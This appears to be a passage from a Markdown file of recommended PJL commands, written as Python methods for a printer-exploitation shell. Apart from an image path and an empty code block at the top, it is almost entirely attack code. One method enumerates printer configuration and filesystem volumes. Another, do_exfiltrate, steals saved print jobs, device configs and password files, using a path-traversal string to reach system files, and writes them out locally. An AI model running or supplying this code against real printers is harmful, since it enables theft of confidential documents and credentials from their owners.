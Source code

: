 ```python
```

---

## 📋 COMANDOS PJL ADICIONAIS RECOMENDADOS

### Information Gathering

```python
def do_info_full(self, arg):
    """Comprehensive information gathering"""
    categories = [
        "ID", "STATUS", "CONFIG", "FILESYS", "MEMORY", 
        "PAGECOUNT", "VARIABLES", "USTATUS", "PRODUCT",
        "NETWORK", "WIFI", "DIRECT", "NVRAM"
    ]
    
    for cat in categories:
        print(f"\n{'='*60}")
        print(f"INFO {cat}")
        print('='*60)
        result = self.cmd(f"@PJL INFO {cat}")
        if result:
            print(result)

def do_scan_volumes(self, arg):
    """Scan all volumes for accessible files"""
    output().info("Scanning all volumes...")
    for vol in range(10):  # Volumes 0-9
        output().info(f"Scanning volume {vol}:")
        result = self.cmd(f"@PJL FSDIRLIST NAME=\"{vol}:\"")
        if result:
            print(f"Volume {vol}:")
            print(result)

def do_exfiltrate(self, arg):
    """Exfiltrate sensitive files from printer"""
    sensitive_paths = [
        "0:/webServer/config/device.cfg",
        "0:/webServer/home/device.html",
        "1:/PostScript/ppd/*",
        "1:/saveDevice/SavedJobs/InProgress/*",
        "1:/saveDevice/SavedJobs/KeepJobs/*",
        "/etc/passwd",
        "../../rw/var/sys/passwd"
    ]
    
    output().info("Attempting to exfiltrate sensitive files...")
    for path in sensitive_paths:
        output().info(f"Trying: {path}")
        result = self.get(self.rpath(path))
        if result != c.NONEXISTENT:
            size, data = result
            filename = path.replace("/", "_").replace(":", "_")
            file().write(f"exfil_{filename}", data)
            output().info(f"  ✓ Exfiltrated {path} ({size} bytes)")
```
